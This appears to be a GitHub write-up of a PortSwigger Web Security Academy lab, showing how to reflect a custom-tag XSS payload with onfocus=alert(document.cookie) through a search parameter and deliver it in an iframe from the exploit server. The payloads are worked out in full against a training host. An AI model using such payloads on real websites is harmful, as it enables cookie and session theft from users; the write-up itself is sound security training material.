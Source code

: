 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/014e693c-80c3-44d5-ae48-786181134070)

### Solution

We need create a custom tag and automatically alerts document.cookie.

onfocusevent , tabindex and id will work with any costom tag.

will try to create the pay load,

```js
<portswigger tabindex="1"onfocus="alert(document.cookie)"id="a1">
```

<portswigger>: This is a made-up element, not a regular one like <div> or <p>.

tabindex="1": This makes it so when you press the "Tab" key to move around a webpage, this element is the first one to be highlighted.

onfocus="alert(document.cookie)": When you click or tab to this element, it shows a pop-up box.

id="a1": It's like a name for this element so that you can refer to it later in your code.

We will enter this payload in the web application

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/710ddae7-7fa0-4fc1-bbda-09a7e41bf674)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b20afef8-3dbf-40c5-aabd-0079858dddba)

For triger the alert we need type the id in the url using #a1.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/db9b7140-dbfa-43d3-8d85-84d62e0b3a28)


the exploit is `https://0a1100ef04046d6780d853e30074009d.web-security-academy.net/?search=%3Cportswigger+tabindex%3D%221%22onfocus%3D%22alert(document.cookie)%22id%3D%22a1%22%3E#a1`

we need to send it inside iframe

Payload will be like

```js
<iframe src="exploit url"></iframe>
```

now we give payload at exploit server

```js
<iframe src=https://0a1100ef04046d6780d853e30074009d.web-security-academy.net/?search=%3Cportswigger+tabindex%3D%221%22onfocus%3D%22alert(document.cookie)%22id%3D%22a1%22%3E#a1></iframe>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/400b7ede-db4f-44b3-85a9-66434200a890)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/403bbf3d-dc70-40c8-99d6-393357a314bb)

now we send the exploit

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/1501f597-47f0-4c7d-baba-76743e622b82)

